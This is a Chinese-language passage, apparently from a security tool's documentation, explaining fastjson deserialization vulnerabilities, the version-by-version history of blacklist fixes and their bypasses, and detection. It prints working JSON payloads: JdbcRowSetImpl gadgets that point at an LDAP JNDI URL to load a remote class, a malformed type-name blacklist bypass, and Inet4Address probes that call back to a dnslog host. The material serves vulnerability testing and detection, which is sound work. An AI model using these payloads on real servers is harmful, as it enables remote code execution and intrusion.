 ```JAVA
if (Arrays.binarySearch(denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null)
```
还有一种黑名单只做了这个判断`if (Arrays.binarySearch(denyHashCodes, hash) >= 0`，而且com.sun.*都被禁了，同时关闭了缓存，不能通过第二种paylaod绕，只能通过不在黑名单中的第三方库绕过

## 总结
看下fastjson漏洞修复历史（这里的绕过是针对第一个payload的变形）

|  fastjson版本   | 修复  |  绕过
|  ----  | ----  | ----  |
| 1.2.25  | 使用checkAutotype，和黑白名单限制@type的类型 | 类名前后加`L`和`;`、`LL`和`;;`或类名前加`[`都可 |
| 1.2.42  | 如果类名有，则去掉L和; | `LL`和`;;`或类名前加`[`都可 |
| 1.2.43  | 如果类名是`LL`开头直接抛异常 | 类名前加`[`
| 1.2.45  | 如果类名是`[`开头 | 通过第三方库绕过黑名单

画了个图

![](/img/products/yakit/json-fastjson.png)

如图

AutoType关闭时，1.2.25 ~ 1.2.47版本都可以通过第二个payload绕过    
AutoType开启时，1.2.25 ~ 1.2.32版本由于会进入黑名单判断，所以要用第一个payload的绕过变形（通过类名前后加`L`、`;`绕过即可），1.2.32~1.2.47可以利用第二个payload绕

综上，在<=1.2.47的版本关闭AutoType的都可以用下面两种payload绕过

```JSON
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:1389/badNameClass","autoCommit":true}}
```

开启AutoType的需要绕过黑名单

```Java
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl"[,,,{,,,"dataSourceName":"ldap://localhost:1399/Exploit", "autoCommit":true}
```


这两个payload通过jndi或rmi检测，检查dnslog反连，受jdk版本限制。同样的java.net.InetAddress也可以检查dnslog反连，且不受jdk版本、黑名单影响，而且在deserializers里自带，不需要绕过autotype，而且可以检查未开启AutoType的1.2.48之后的版本，所以最终payload如下，这就是大道至简吧，

```JSON
{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}
// 还有一种畸形payload
{"@type":"java.net.InetSocketAddress"{"address":,"val":"xxx.dnslog.cn"}
```

调试时发现在1.2.25后的版本，在checkAutoType中都有下面代码

![](/img/products/yakit/json-checkAutoType-1225.png)
